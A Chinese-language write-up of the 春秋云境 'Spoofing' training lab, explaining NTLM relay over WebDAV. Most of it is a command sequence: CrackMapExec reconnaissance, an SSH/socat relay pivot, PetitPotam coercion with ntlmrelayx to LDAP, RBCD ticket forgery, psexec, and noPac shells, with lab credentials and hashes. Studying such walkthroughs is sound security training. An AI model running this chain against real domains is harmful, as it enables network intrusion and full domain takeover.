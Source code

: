 - 春秋云境 Spoofing

* https://www.cnblogs.com/yokan/p/16102699.html
* https://daiker.gitbook.io/windows-protocol/ntlm-pian
* https://cloud.tencent.com/developer/article/2267322

  NTLM Relay 大体是什么意思呢，其实就是域中的中间人攻击，通过一些方法触发客户端进行认证，将 Net-NTLM Hash 传给我们，我们再带着这个信息去访问 DC，从而实现 Relay。而 NTLM 只是一个底层的认证协议，需要上层协议的支持，比如 smb 也能作为其上层协议，这里是对于 WebDAV(HTTP) 协议进行攻击。需要注意的是不同的协议，其需要的签名状态不同，比如：

relay 到 smb 服务要求被攻击机器不能开启 SMB 签名，普通域内机器默认不是开启的，但是域控是默认开启的。
relay 到 ldap 也要求被攻击机器不开启 ldap 签名，而默认情况下是协商签名，即如果客户端是 smb 协议的话，则默认要求签名，如果是 webadv 或 http 协议，是不要求签名的。

[WriteUp 1](https://fushuling.com/index.php/2023/10/14/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83%C2%B7spoofing/)

- NTLM Relay攻击时在域中通过relay到smb服务将管理组成员冲放到到一些敏感的机器上。
- [因此relay到smb服务要求被攻击机器不能开启SMB签名](https://xz.aliyun.com/t/12627)
- `python RunFinger.py -i 192.168.52.0/24` 检测 Signing: False


```sh
# M1. 检测内网启动了 WebClient 服务的机器：
python cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M Webdav
# 以及 check PetitPotam 是否能够进行强制触发，这里有对于强制触发的总结。
python cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M PetitPotam
## M2. 或者下面
proxychains crackmapexec smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M Webdav
proxychains crackmapexec smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M PetitPotam

## kali连接ssh, 并将201:79转发至本地80端口
kali@192.168.1.123$ ssh -i ~/.ssh/id_rsa root@39.98.115.201 -D 0.0.0.0:1080 -R \*:79:127.0.0.1:80
## socat，让39.x.xx201:80 即 0.0.0.0:80 转发到 127.0.0.1:79，再反向转发回kali的 80 ,变相使 80 监听在 0.0.0.0
root@39.98.115.201$ nohup socat TCP-LISTEN:80,fork,bind=0.0.0.0 TCP:localhost:79 &

## 测试, 有消息回来为正常 39.98.115.201即172.22.11.76
kali$ nc -lvvp 80
kali$ proxychains curl http://172.22.11.76:80

## 攻击, xr-desktop$为前面拿到的机器账户
proxychains python3 ntlmrelayx.py -t ldap://172.22.11.6 --no-dump --no-da --no-acl --escalate-user 'xr-desktop$' --delegate-access
proxychains python3 PetitPotam.py -u yangmei -p 'xrihGHgoNZQ' -d xiaorang.lab ubuntu@80/pwn.txt 172.22.11.26

## 用之前172.22.11.45上抓的机器账户XR-DESKTOP$哈希打172.22.11.26的RBCD
proxychains impacket-getST -spn cifs/XR-LCM3AE8B.xiaorang.lab -impersonate administrator -hashes :6f558f06e563b300dc9f5884aca659f3  xiaorang.lab/XR-Desktop\$ -dc-ip 172.22.11.6
export KRB5CCNAME=administrator.ccache
sudo vim /etc/hosts # 把XR-LCM3AE8B.xiaorang.lab的ip加到hosts里
### 172.22.11.45 XR-Desktop.xiaorang.lab
### 172.22.11.6 xiaorang-dc.xiaorang.lab
### 172.22.11.26 XR-LCM3AE8B.xiaorang.lab

## 最后即可无密码连接
proxychains python3 psexec.py xiaorang.lab/administrator@XR-LCM3AE8B.xiaorang.lab -k -no-pass -target-ip 172.22.11.26 -codec gbk

## 抓到一个zhanghui用户的哈希1232126b24cdf8c9bd2f788a9d7c7ed1，他在MA_Admin组，对computer能够创建对象，能向域中添加机器账户，所以能打noPac
proxychains python3 noPac.py xiaorang.lab/zhanghui -hashes ':1232126b24cdf8c9bd2f788a9d7c7ed1' -dc-ip 172.22.11.6 --impersonate Administrator -create-child -use-ldap -shell
## XR-DESKTOP$也是可以的，毕竟它本来就是机器账户，不用创建了
proxychains python3 noPac.py xiaorang.lab/'XR-DESKTOP$' -hashes ':35fb7e8acb21e4e22703fd8c543e0c25' -dc-ip 172.22.11.6 --impersonate Administrator -no-add -target-name 'XR-DESKTOP$' -old-hash ':35fb7e8acb21e4e22703fd8c543e0c25' -use-ldap -shell

```
